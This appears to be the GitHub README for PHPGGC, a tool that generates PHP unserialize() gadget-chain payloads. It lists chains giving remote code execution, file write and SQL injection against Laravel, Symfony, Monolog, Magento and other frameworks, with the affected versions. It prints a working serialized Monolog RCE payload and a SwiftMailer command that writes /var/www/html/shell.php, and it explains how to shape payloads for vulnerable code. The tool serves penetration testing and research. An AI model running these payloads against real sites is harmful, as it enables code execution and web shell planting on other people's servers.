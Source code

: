 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of [frohoff's ysoserial](https://github.com/frohoff/ysoserial), but for PHP.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.

## Requirements

PHP >= 5.6 is required to run PHPGGC.

## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I
Doctrine/FW1          ?                 file_write       __toString     *
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct
Laravel/RCE1          5.4.27            rce              __destruct
Laravel/RCE2          5.5.39            rce              __destruct
Laravel/RCE3          5.5.39            rce              __destruct     *
Laravel/RCE4          5.5.39            rce              __destruct
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct
Monolog/RCE1          1.18 <= 1.23      rce              __destruct
Monolog/RCE2          1.5 <= 1.17       rce              __destruct
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *
Slim/RCE1             3.8.1             rce              __toString
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString
SwiftMailer/FW3       5.0.1             file_write       __toString
Symfony/FW1           2.5.2             file_write       DebugImport    *
Symfony/RCE1          3.3               rce              __destruct     *
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *
ThinkPHP/FD1          5.x               file_delete      __destruct     *
Yii/RCE1              1.1.19            rce              __wakeup       *
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     *

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <code>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 'phpinfo();'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
Payloads often contain NULL bytes and cannot be copy/pasted as-is. Use `-s` for a soft URL encode, which keeps the payload readable.

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```
# /tmp/my_wrapper.php

function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 'phpinfo();'
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- Error-free payloads are prefered, as some websites exit abruptly even with E_NOTICE errors
- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.
